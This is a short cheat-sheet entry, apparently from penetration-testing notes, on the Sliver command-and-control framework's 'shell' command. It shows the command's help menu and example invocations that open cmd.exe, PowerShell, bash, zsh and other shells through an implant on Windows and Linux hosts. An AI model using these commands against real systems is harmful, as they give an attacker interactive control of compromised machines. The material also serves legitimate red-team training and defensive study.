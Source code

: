 # 14 - Spawn Shell

Search Tag(s): #sliver #command-and-control #interactive-shell

### 14.1 - Help Menu

```
sliver (IMPLANT_NAME) > shell -h

Start an interactive shell

Usage:
======
  shell [flags]

Flags:
======
  -h, --help                 display help
  -y, --no-pty               disable use of pty on macos/linux
  -s, --shell-path string    path to shell interpreter
  -t, --timeout    int       command timeout in seconds (default: 60)
```

### 14.2 - Usage

#### 14.2.1 - Windows

```
sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\system32\\cmd.exe"

sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\system32\\WindowsPowershell\\v1.0\\powershell.exe"

sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\SysWOW64\\WindowsPowershell\\v1.0\\powershell.exe"
```

#### 14.2.2 - Linux

```
sliver (IMPLANT_NAME) > shell -y -s /bin/sh

sliver (IMPLANT_NAME) > shell -y -s /bin/bash

sliver (IMPLANT_NAME) > shell -y -s /bin/zsh

sliver (IMPLANT_NAME) > shell -y -s /bin/dash

sliver (IMPLANT_NAME) > shell -y -s /bin/fish
```